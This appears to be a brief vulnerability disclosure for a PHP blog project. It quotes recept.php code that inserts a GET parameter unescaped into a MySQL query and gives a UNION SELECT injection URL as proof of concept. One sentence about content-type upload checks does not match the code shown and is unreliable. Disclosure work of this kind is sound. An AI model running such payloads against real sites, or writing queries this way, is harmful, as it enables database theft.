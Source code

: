 ## powered by sebao from 404team ##


## Vulnerability link ##

https://github.com/zorovavi/blog

## Vulnerability details ##

in recept.php line 41 allows SQL Injection via the id parameter

	<?php 
		$id=$_GET["id"];
		require_once("db.php"); 
		$query=mysql_query("SELECT recept FROM recept WHERE id_z=$id", $link) or die(mysql_error());
		$zag1=mysql_fetch_row($query);
		$zag=$zag1[0];
	?>
	<p><img src="images/<?php echo "$id" ?>.jpg" alt = "рецепт"><?php echo "$zag"?></p>

this code only check the file content-type. if attackers set content-type to image/jpeg can upload any file.for example php file

## poc ##

http://target/recept.php?id=-1 union select user()
